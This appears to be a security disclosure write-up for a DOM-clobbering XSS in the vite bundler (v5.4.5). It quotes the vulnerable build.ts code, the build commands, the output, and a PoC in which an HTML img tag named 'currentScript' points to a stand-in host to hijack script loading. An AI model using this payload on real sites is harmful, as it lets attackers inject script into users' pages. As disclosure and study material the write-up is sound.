 ## vite

### Meta

+ Library: vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Accepted
+ Foundby: TheHulk

### Library

URL: https://github.com/vitejs/vite
Bundlers run locally

### Vulnerable Code Snippet

```js
// https://github.com/vitejs/vite/blob/main/packages/vite/src/node/build.ts#L1309
const relativeUrlMechanisms = {
  amd: (relativePath) => {
    if (relativePath[0] !== ".") relativePath = "./" + relativePath;
    return getResolveUrl(
      `require.toUrl('${escapeId(relativePath)}'), document.baseURI`
    );
  },
  cjs: (relativePath) => `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath)})`,
  es: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`
  ),
  iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
  // NOTE: make sure rollup generate `module` params
  system: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`
  ),
  umd: (relativePath) => `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath, true)})`
};
```

```sh
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```js
"use strict";const t=""+(typeof document>"u"?require("url").pathToFileURL(__dirname+"/extra-Cjq7Wz0N.js").href:new URL("extra-Cjq7Wz0N.js",document.currentScript&&document.currentScript.src||document.baseURI).href);var e=document.createElement("script");e.src=t;document.head.append(e);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```js
import extraURL from './extra.js?url'
var s = document.createElement('script')
s.src = extraURL
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-DDmIg9VD.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

